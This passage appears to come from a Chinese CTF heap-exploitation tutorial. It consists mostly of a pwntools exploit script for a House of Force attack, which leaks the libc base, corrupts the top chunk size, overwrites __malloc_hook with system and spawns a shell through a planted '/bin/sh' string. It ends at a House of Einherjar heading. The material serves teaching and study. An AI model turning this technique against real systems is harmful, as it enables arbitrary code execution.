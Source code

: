 ```plain
def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    ru('2:puts\n')
    sl(str(1))
    ru('size\n')
    sl(str(size))
    ru('0x')
    data_ptr=int(p.recv(12),16)
    ru('content\n')
    s(content)
    return data_ptr


libc_base=add(0x200000,'aaaa')+0x200ff0
leak('libc_base',libc_base)

top_chunk_addr=add(0x10,'a'*0x10+b'/bin/sh\x00'+p64(0xffffffffffffffff))+0x10
leak('top_chunk_addr',top_chunk_addr)
#duan()
malloc_hook=libc.sym['__malloc_hook']+libc_base
realloc = libc.sym["__libc_realloc"]
system=libc.sym['system']+libc_base
leak('malloc_hook',malloc_hook)
offset=(malloc_hook-0x20)-top_chunk_addr
leak('offset',offset)
'''
ogs = [0x45226, 0x4527a, 0xf03a4, 0xf1247]
og=ogs[1]+libc_base
leak('og',og)
'''
add(offset,'kkk')
add(0x10,p64(system))

#duan()
p.recvuntil("2:puts\n")
p.sendline('1')
p.recvuntil("size\n")
p.sendline(str(top_chunk_addr))

#duan()
itr()
```

# House Of Einherjar

## 介绍
